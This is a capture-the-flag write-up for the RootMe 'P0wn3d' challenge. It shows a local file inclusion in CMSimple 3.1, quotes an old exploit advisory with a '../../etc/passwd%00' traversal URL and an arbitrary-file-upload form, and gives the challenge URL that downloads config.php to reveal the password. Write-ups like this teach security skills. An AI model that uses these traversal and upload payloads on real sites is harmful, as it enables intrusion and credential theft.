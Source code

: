 ```yaml
---
title: RootMe - P0wn3d Writeup
date: 2023-10-10
categories: [RootMe, Realistic]
tags: [RootMe, RootMe - Realistic, WriteUp, LFI, Local File Inclusion, PHP]
author: barabulkit
---
```


# RootMe - P0wn3d

In this challenge we have source code attached to it, and we also have a hint about lfi cause its stated in related resources

So with just googling `cmsimple lfi` we can already find exploit

```html
<pre>
#
# CMSimple 3.1 Local File Inclusion / Arbitrary File Upload
# download: http://www.cmsimple.org/?Downloads
# dork: "Powered by CMSimple"
#
# author: irk4z@yahoo.pl
# homepage: http://irk4z.wordpress.com
#


Local File Inclusion :

	http://[host]/[path]/index.php?sl=[file]%00
	http://[host]/[path]/index.php?sl=../../../../../../../etc/passwd%00


Arbitrary File Upload (into http://[host]/[path]/downloads/ ):
</pre>
<form method="POST" enctype="multipart/form-data" action="http://[host]/[path]/index.php?sl=../adm&adm=1" >
<input type="file" class="file" name="downloads" size="30">
<input type="hidden" name="action" value="upload">
<input type="hidden" name="function" value="downloads">
<input type="submit" class="submit" value="Upload">
</form>

# milw0rm.com [2008-05-31]
```

by exploring source code we can find that password is stored in `config.php`

```php
<?php
$cf['security']['password']="test";
$cf['security']['type']="page";
$cf['site']['title']="The name of the site";
$cf['site']['template']="default";
$cf['language']['default']="en";
$cf['meta']['keywords']="CMSimple, Content Management System, php";
$cf['meta']['description']="CMSimple is a simple content management system for smart maintainance of small commercial or private sites. It is simple - small - smart! It is Free Software licensed under AGPL";
$cf['backup']['numberoffiles']="5";
$cf['images']['maxsize']="150000";
$cf['downloads']['maxsize']="1000000";
$cf['mailform']['email']="";
$cf['editor']['height']="(screen.availHeight)-400";
$cf['editor']['external']="";
$cf['menu']['color']="000000";
$cf['menu']['highlightcolor']="808080";
$cf['menu']['levels']="3";
$cf['menu']['levelcatch']="10";
$cf['menu']['sdoc']="";
$cf['uri']['seperator']=":";
$cf['uri']['length']="200";
$cf['xhtml']['endtags']="";
$cf['xhtml']['amp']="true";
$cf['plugins']['folder']="";
$cf['functions']['file']="functions.php";
$cf['scripting']['regexp']="\#CMSimple (.*?)\#";
?>
```

And that we can download it (below is source code from adm.php)
```php
if ($f == 'file') {
		if (preg_match("/\d{3}\.htm/", $file))$pth['file'][$file] = $pth['folder']['content'].'/'.$file;
		if ($pth['file'][$file] != '') {
			if ($action == 'view') {
				header('Content-Type: text/plain');
				echo rmnl(rf($pth['file'][$file]));
				exit;
			}
			if ($action == 'download') {
				download($pth['file'][$file]);
            } 
```

so after goint to url
```
http://challenge01.root-me.org/realiste/ch6/index.php?sl=../adm&adm=1&file=config&action=download
```

we get this file and password `CtP6p$>@8xm-0t` in it